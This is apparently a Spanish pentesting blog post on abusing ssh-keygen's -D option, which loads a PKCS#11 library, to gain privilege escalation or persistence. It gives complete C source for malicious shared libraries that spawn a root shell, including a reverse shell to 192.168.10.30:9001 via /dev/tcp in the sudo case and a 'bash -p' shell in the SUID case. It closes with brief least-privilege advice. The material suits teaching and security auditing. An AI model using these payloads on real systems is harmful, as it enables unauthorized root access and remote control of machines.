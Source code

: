 ```yaml
---
title: "Abusando de ssh-keygen"
summary: "SSH-Keygen es una herramienta que permite crear y gestionar claves SSH, esta herramienta esta presente en la mayoría de los sistemas UNIX hoy en día como herramienta para facilitar la gestión de las claves SSH.\n\nEn este articulo exploraremos un par de métodos para abusar de esta herramienta con ciertas configuraciones como método de persistencia o de escalada de privilegios en el sistema.\n\nEn concreto abusaremos de una funcionalidad concreta de este binario que permite la carga de claves publicas desde una librería de lectura de tarjetas, esta opción es el parámetro -D, su uso es el siguiente."
date: 17 de Octubre, 2024
tag:
    - Ciberseguridad
    - Pentesting
    - SSH
    - Linux
    - SUID 
    - Persistencia
lang: es
---
```

# Abusando de ssh-keygen

SSH-Keygen es una herramienta que permite crear y gestionar claves SSH, esta herramienta esta presente en la mayoría de los sistemas UNIX hoy en día como herramienta para facilitar la gestión de las claves SSH.

En este articulo exploraremos un par de métodos para abusar de esta herramienta con ciertas configuraciones como método de persistencia o de escalada de privilegios en el sistema.

En concreto abusaremos de una funcionalidad concreta de este binario que permite la carga de claves publicas desde una librería de lectura de tarjetas, esta opción es el parámetro -D, su uso es el siguiente.

```c
ssh-keygen -D ./lib.so
```

# Como generamos el payload

Una vez explicado que nos lleva a poder explotar esta función, vamos a explicar en mayor detalle como generar un payload, para ello primero de todo será obtener una versión de pkcs11.h . En este archivo de cabeceras es donde se definen los tipos de datos necesarios para la función de nuestra librería que llamara ssh-keygen al usar el parámetro -D. 

En nuestro caso, para ello iremos al repositorio de Open Smart Card y descargaremos la versión que necesitamos de la siguiente url:

[GitHub - PKCS11](https://github.com/OpenSC/libp11/blob/master/src/pkcs11.h){:target="_blank"}

Con este archivo procederemos a escribir un pequeño programa en C con la estructura necesaria para ser ejecutado por ssh-keygen, en nuestro caso este programa lanza una shell en bash.

```c
#include "pkcs11.h"
#include <stdio.h>
#include <unistd.h>

CK_RV C_GetFunctionList(CK_FUNCTION_LIST_PTR_PTR ppFunctionList) {
    
    pid_t pid = fork();

    if (pid == 0) {

        char *cmd = "/bin/bash";
        char *args[] = {cmd, NULL};
        execv(cmd,args);

   } else if(pid > 0) {
        wait(NULL);
    } else {
        perror("fork");
        return 1;
    }

    return CKR_OK;
}
```

Una vez compilado podemos cargarlo como librería como indicamos en la introducción. 

## Profit

## Caso 1: Sudo SSH-Keygen

Vamos a explotar un escenario donde nuestro usuario tiene permisos para ejecutar el comando ssh-keygen como root.

```bash
Matching Defaults entries for pnavas on test:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User pnavas may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /usr/bin/ssh-keygen
```

En este ese caso, en lugar de hacer uso de una simple llamada a bash vamos a cargar una reverse shell.

```c
#include "pkcs11.h"
#include <stdio.h>
#include <unistd.h>

CK_RV C_GetFunctionList(CK_FUNCTION_LIST_PTR_PTR ppFunctionList) {
    
    pid_t pid = fork();

    if (pid == 0) {

        char *cmd = "/bin/bash";
        char *args[] = {cmd, "-c" , "bash -i >& /dev/tcp/192.168.10.30/9001 0>&1", NULL};
        execv(cmd,args);

   } else if(pid > 0) {
        wait(NULL);
    } else {
        perror("fork");
        return 1;
    }

    return CKR_OK;
}
```

Como resultado, al cargarla obtendremos una conexión como root en nuestro listener, podríamos cambiarlo para ejecutar una shell sencillamente como en el ejemplo de la sección de teoría .

## Caso 2: SSH-Keygen SUID

En este escenario vamos a explotar un escenario algo menos común donde ssh-keygen tiene el bit del SUID activado, en este caso para mantener los privilegios del SUID tenemos que cambiar un poco el código de la librería para que la shell mantenga los privilegios.

```c
#include "pkcs11.h"
#include <stdio.h>
#include <unistd.h>

CK_RV C_GetFunctionList(CK_FUNCTION_LIST_PTR_PTR ppFunctionList) {
    
    pid_t pid = fork();

    if (pid == 0) {

        char *cmd = "/bin/bash";
        char *args[] = {cmd, "-p", NULL};
        execv(cmd,args);

   } else if(pid > 0) {
        wait(NULL);
    } else {
        perror("fork");
        return 1;
    }

    return CKR_OK;
}
```

Una vez compilado podemos ejecutar el comando para cargar la librería y obtener una shell con los privilegios necesarios.

## Reflexiones Finales

Como se ha demostrado, ssh-keygen es una herramienta poderosa que, cuando está mal configurada o mal utilizada, puede convertirse en un riesgo significativo para la seguridad. Los escenarios presentados en este artículo destacan la importancia de configurar y restringir adecuadamente el acceso a binarios con privilegios elevados.

Al comprender y gestionar proactivamente las capacidades y riesgos asociados con herramientas comunes como ssh-keygen, los administradores pueden garantizar la integridad y seguridad de sus sistemas.

!!! note
    Adopte siempre el principio de privilegio mínimo y realice auditorías de seguridad regulares para minimizar las superficies de ataque.

---

